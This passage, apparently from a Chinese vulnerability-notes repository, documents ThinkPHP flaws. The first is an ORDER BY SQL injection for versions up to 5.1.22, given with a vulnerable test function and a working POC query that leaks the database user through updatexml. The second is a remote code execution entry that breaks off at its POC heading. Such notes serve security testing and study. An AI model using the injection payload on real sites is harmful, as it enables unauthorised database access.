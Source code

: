 - ThinkPHP 5.X order by注入漏洞

  | 标题     | ThinkPHP 3.X/5.X order by注入漏洞                   |
  | -------- | --------------------------------------------------- |
  | 时间     | 2018-08-23                                          |
  | 版本     | <= 5.1.22                                           |
  | 文章链接 | <https://mp.weixin.qq.com/s/jDvOif0OByWkUNLv0CAs7w> |
  
  >测试方法
  >
  >```bash
  >git checkout 35e9878
  >```
  >
  >测试代码
  >
  >```php
  >public  function testsql()
  >{
  >   $order = input('get.order');
  >   $m = db('user')->order($order)->find();
  >   var_dump($m);
  >}
  >```
  >
  >POC
  >
  >```php
  >testsql?order[id`|updatexml(1,concat(0x3a,user()),1)%23]=1
  >```
  >
  >结果
  >
  >![img](http://galaxylab-1253943019.cos.ap-shanghai.myqcloud.com/wp-content/uploads/2018/08/29118d345a4611e87dd77dda43863f19.png?imageView2/1/w/3872/h/1764#)
  
- ThinkPHP5.X 远程代码执行

  | 标题     | ThinkPHP5.X 远程代码执行                                     |
  | -------- | ------------------------------------------------------------ |
  | 时间     | 2018-12-10                                                   |
  | 版本     | 5.0.5-5.0.22<br />5.1.0-5.1.30                               |
  | 文章链接 | <https://xz.aliyun.com/t/3570><br />https://paper.seebug.org/760/<br /><https://paper.seebug.org/770> |
  >测试方法
  >
  >```bash
  >git checkout 4fefa5e
  >```
  >
  >测试代码
  >
  >```php
  >public  function index()
  >    {
  >        //...无需实际代码
  >     }
  >    ```
  >
  >POC
  >
  >```php
